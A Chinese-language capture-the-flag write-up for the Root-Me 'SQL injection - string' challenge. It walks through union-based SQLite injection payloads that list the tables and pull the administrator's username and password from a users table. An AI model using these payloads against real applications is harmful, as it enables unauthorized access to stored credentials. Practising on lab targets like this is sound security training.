


Root-Me [SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)
===

很簡陋的 CMS。

## 解題關鍵
1. SQL-Injection

## 提示訊息
```
Retrieve the administrator password
```

## 解題方法
首先該頁面上有幾篇文章，與搜尋、登入的功能。  

瀏覽文章，可以發現 URL 的規則如下：
```
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=1
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=2
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=3
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=4
http://challenge01.root-me.org/web-serveur/ch19/?action=news&news_id=5
```

最後方的 `news_id=n` 就來簡單測試注入。 

```
news_id=1 + 1 //Fail
news_id=1 - 1 //Fail
news_id=1' or 1 = 1 %23  //Fail
news_id=1' and 1 = 1 %23 //Fail
```

經過簡單的測試，可能不具有注入點，接著往搜尋頁面找找。  
  

可以發現該功能可以找到相關文章篇數、內容，接著透過輸入 `' or 1 = 1 --`，出現了與上方圖片相符的結果，表示該地方據有注入點。  

隨後透過 `' order by 2  --` 得知該地方輸出欄位為 `2`，接著透過 `union select 1,database() --` 來得到資料庫名稱，結果呈現 `no such function: database`，才發現 SQLite 好像沒有 `database()` 的用法。  

透過參考資料得知可以用 `sqlite_master` 來找出所有的資料表名稱。  

```
' union select 1,name FROM sqlite_master WHERE type='table' limit 0,1--
news

' union select 1,name FROM sqlite_master WHERE type='table' limit 1,1--
users
```

接著找出 `users` 資料表的結構。  

```
'union select 1,sql FROM sqlite_master WHERE type='table' limit 1,1--
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```

最後列出欄位裡面的資料，這部分由於搜尋功能還是會作用，便在 `'` 之前加上 `XXXX`，把前面的搜尋結果過濾掉，`limit 0,1` 便會是 `admin`，解決該題。  

```
XXXX' union select username||'::'||password,2 FROM users limit 0,1--
```

  


## Reference
https://klionsec.github.io/2016/05/18/sqlite3-common-injection/

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)